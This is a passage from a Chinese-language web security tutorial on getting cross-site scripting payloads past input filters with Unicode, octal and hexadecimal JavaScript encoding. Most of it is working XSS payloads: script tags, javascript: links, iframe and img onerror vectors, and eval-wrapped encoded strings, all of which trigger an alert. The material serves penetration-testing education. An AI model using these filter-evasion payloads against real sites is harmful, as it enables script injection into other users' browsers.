 - Unicode 编码
- 八进制编码
- 十六进制编码

Unicode编码的比较广泛，而八进制和十六进制只有在DOM环境或eval()等函数中才可以用。

##### Unicode 编码

```html
<script>alert("xss")</script>
<script>\u0061\u006C\u0065\u0072\u0074("xss")</script>
<script>\u0061\u006C\u0065\u0072\u0074("\u0078\u0073\u0073")</script>

<a href=javascript:alert("xss")>test</a>
<a href=javascript:\u0061\u006C\u0065\u0072\u0074("xss")>test</a>
<a href=javascript:\u0061\u006C\u0065\u0072\u0074("\u0078\u0073\u0073")>test</a>
<!--不能对伪协议头 javascript: 进行 Javascript 编码。并且像圆括号、双引号、单引号这样的符号我们也不能进 Javascript 编码，但是能进行HTML编码。-->
```

##### **在DOM环境中的JavaScript编码**

```html
对于八进制编码和十六进制编码，与 Unicode 编码还是有区别，要想让他们能够执行我们要将他们放在DOM环境中
<script>alert("xss")</script>
<script>\141\154\145\162\164("xss")</script>
<a href=javascript:alert("xss")>test</a>
<a href=javascript:\x61\x6c\x65\x72\x74("xss")>test</a>

<!--如果过滤了 <、>、'、"、&、% 等等这些字符的话，我们便可以用JavaScript编码的方法将XSS语句全部编码-->
即 <iframe src=javascript:alert('xss')></iframe> 的以下编码都可以弹窗：
<!--Unicode编码-->
\u003C\u0069\u0066\u0072\u0061\u006D\u0065\u0020\u0073\u0072\u0063\u003D\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003A\u0061\u006C\u0065\u0072\u0074\u0028\u0027\u0078\u0073\u0073\u0027\u0029\u003E\u003C\u002F\u0069\u0066\u0072\u0061\u006D\u0065\u003E
<!--八进制编码-->
\74\151\146\162\141\155\145\40\163\162\143\75\152\141\166\141\163\143\162\151\160\164\72\141\154\145\162\164\50\47\170\163\163\47\51\76\74\57\151\146\162\141\155\145\76
<!--十六进制编码-->
\x3c\x69\x66\x72\x61\x6d\x65\x20\x73\x72\x63\x3d\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3a\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29\x3e\x3c\x2f\x69\x66\x72\x61\x6d\x65\x3e

```

```html
另一种弹窗的方法
<script>alert("xss")</script>
<script>eval("\141\154\145\162\164\50\42\170\163\163\42\51")</script>

<a href=javascript:alert("xss")>test</a>
<a href=javascript:eval("\x61\x6c\x65\x72\x74\x28\x22\x78\x73\x73\x22\x29")>test</a>

<img src=x onerror=alert("xss")>
<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>

```
